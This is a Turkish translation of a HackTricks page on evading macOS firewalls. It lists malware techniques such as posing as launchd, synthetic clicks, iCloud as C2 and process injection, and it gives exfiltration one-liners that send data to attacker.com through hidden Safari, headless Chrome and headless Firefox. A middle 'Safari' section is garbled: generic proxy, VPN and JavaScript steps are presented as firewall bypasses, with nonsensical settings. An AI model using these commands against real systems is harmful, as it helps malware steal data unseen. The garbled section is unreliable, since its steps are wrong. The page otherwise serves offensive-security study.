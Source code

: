 # macOS Firewall Bypass Etme

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahraman olmaya öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**'ı takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek paylaşın**.

</details>

## Bulunan teknikler

Aşağıdaki teknikler, bazı macOS güvenlik duvarı uygulamalarında çalıştığı tespit edilen tekniklerdir.

### Beyaz liste isimlerini kötüye kullanma

* Örneğin, kötü amaçlı yazılımı **`launchd`** gibi iyi bilinen macOS işlemleri adlarıyla çağırma

### Sentetik Tıklama

* Güvenlik duvarı kullanıcıdan izin istiyorsa, kötü amaçlı yazılımın **izin ver'e tıklamasını** sağlama

### **Apple imzalı ikili dosyaları kullanma**

* **`curl`** gibi, aynı zamanda **`whois`** gibi diğerleri de

### İyi bilinen apple alan adları

Güvenlik duvarı, **`apple.com`** veya **`icloud.com`** gibi iyi bilinen apple alan adlarına bağlantılara izin verebilir. Ve iCloud bir C2 olarak kullanılabilir.

### Genel Bypass

Güvenlik duvarını atlamak için denenebilecek bazı fikirler

### İzin verilen trafiği kontrol etme

İzin verilen trafiği bilmek, potansiyel olarak beyaz listeye alınmış alan adlarını veya bunlara erişime izin verilen uygulamaları belirlemenize yardımcı olacaktır.
```bash
lsof -i TCP -sTCP:ESTABLISHED
```
### DNS Kötüye Kullanma

DNS çözümlemeleri, muhtemelen DNS sunucularına erişime izin verilecek olan **`mdnsreponder`** adlı uygulama aracılığıyla yapılır.

<figure><img src="../../.gitbook/assets/image (1) (1) (6).png" alt="https://www.youtube.com/watch?v=UlT5KFTMn2k"><figcaption></figcaption></figure>

### Tarayıcı Uygulamaları Aracılığıyla

* **oascript**
```applescript
tell application "Safari"
run
tell application "Finder" to set visible of process "Safari" to false
make new document
set the URL of document 1 to "https://attacker.com?data=data%20to%20exfil
end tell
```
* Google Chrome

{% code overflow="wrap" %}
```bash
"Google Chrome" --crash-dumps-dir=/tmp --headless "https://attacker.com?data=data%20to%20exfil"
```
{% endcode %}

* Firefox
```bash
firefox-bin --headless "https://attacker.com?data=data%20to%20exfil"
```
# Safari

Safari, Apple'ın varsayılan web tarayıcısıdır. macOS üzerinde çalışır ve güvenlik önlemleriyle donatılmıştır. Ancak, bazı durumlarda güvenlik duvarını atlamak için bazı teknikler kullanılabilir.

## 1. Proxy Sunucusu Kullanma

Proxy sunucusu kullanarak, internet trafiğinizi başka bir sunucu üzerinden yönlendirebilir ve güvenlik duvarını atlayabilirsiniz. Bu, IP adresinizi gizlemek ve engellenmiş web sitelerine erişmek için etkili bir yöntemdir.

Proxy sunucusu ayarlarını Safari'de yapılandırmak için aşağıdaki adımları izleyin:

1. Safari'yi açın ve "Tercihler"i seçin.
2. "Gelişmiş" sekmesine gidin ve "Değiştir" düğmesine tıklayın.
3. "Proxies" sekmesine gidin ve "Web Proxy (HTTP)" seçeneğini işaretleyin.
4. Proxy sunucusunun IP adresini ve port numarasını girin.
5. "Tamam" düğmesine tıklayın ve ayarları kaydedin.

## 2. VPN Kullanma

VPN (Virtual Private Network), internet trafiğinizi şifreleyerek güvenli bir şekilde iletmek için kullanılan bir teknolojidir. VPN kullanarak, güvenlik duvarını atlayabilir ve internet trafiğinizi başka bir konumdan yönlendirebilirsiniz.

Safari'de VPN kullanmak için aşağıdaki adımları izleyin:

1. Bir VPN hizmeti sağlayıcısı seçin ve hesap oluşturun.
2. macOS üzerinde VPN ayarlarını yapılandırın.
3. Safari'yi açın ve "Tercihler"i seçin.
4. "Gelişmiş" sekmesine gidin ve "Değiştir" düğmesine tıklayın.
5. "Proxies" sekmesine gidin ve "Web Proxy (HTTP)" seçeneğini işaretleyin.
6. VPN sağlayıcınızın sunucusunun IP adresini ve port numarasını girin.
7. "Tamam" düğmesine tıklayın ve ayarları kaydedin.

## 3. JavaScript Devre Dışı Bırakma

JavaScript, web sitelerinde etkileşimli öğelerin çalışmasını sağlayan bir programlama dilidir. Ancak, bazı durumlarda güvenlik duvarını atlamak için JavaScript'i devre dışı bırakabilirsiniz.

Safari'de JavaScript'i devre dışı bırakmak için aşağıdaki adımları izleyin:

1. Safari'yi açın ve "Tercihler"i seçin.
2. "Gelişmiş" sekmesine gidin ve "Değiştir" düğmesine tıklayın.
3. "Gelişmiş" sekmesinde "Web sitesi kullanımı" bölümüne gidin.
4. "JavaScript'i etkinleştir" seçeneğini kaldırın.
5. "Tamam" düğmesine tıklayın ve ayarları kaydedin.

Bu yöntem, bazı web sitelerinin düzgün çalışmamasına neden olabilir, bu nedenle dikkatli olun.

## 4. Güvenlik Duvarı Ayarlarını Değiştirme

Safari'de güvenlik duvarı ayarlarını değiştirerek, engellenmiş web sitelerine erişebilirsiniz. Ancak, bu yöntem, güvenlik açıklarına neden olabilir ve bilgisayarınızı risk altına sokabilir.

Güvenlik duvarı ayarlarını değiştirmek için aşağıdaki adımları izleyin:

1. Safari'yi açın ve "Tercihler"i seçin.
2. "Gelişmiş" sekmesine gidin ve "Değiştir" düğmesine tıklayın.
3. "Gelişmiş" sekmesinde "Web sitesi kullanımı" bölümüne gidin.
4. "Güvenlik" sekmesine gidin ve "Web sitesi izinleri"ni seçin.
5. Engellenmiş web sitelerini bulun ve "İzin Ver" seçeneğini işaretleyin.
6. "Tamam" düğmesine tıklayın ve ayarları kaydedin.

Bu yöntem, güvenlik duvarını atlamak için etkili olabilir, ancak dikkatli olun ve yalnızca güvendiğiniz web sitelerine erişin.
```bash
open -j -a Safari "https://attacker.com?data=data%20to%20exfil"
```
### Süreç enjeksiyonu ile

Eğer herhangi bir sunucuya bağlanmasına izin verilen bir sürece **kod enjekte edebilirseniz**, güvenlik duvarı korumalarını atlayabilirsiniz:

{% content-ref url="macos-proces-abuse/" %}
[macos-proces-abuse](macos-proces-abuse/)
{% endcontent-ref %}

## Referanslar

* [https://www.youtube.com/watch?v=UlT5KFTMn2k](https://www.youtube.com/watch?v=UlT5KFTMn2k)

<details>

<summary><strong>AWS hackleme konusunda sıfırdan kahramana dönüşmek için</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>'ı öğrenin!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya HackTricks'i **PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**'da takip edin.**
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek paylaşın**.

</details>
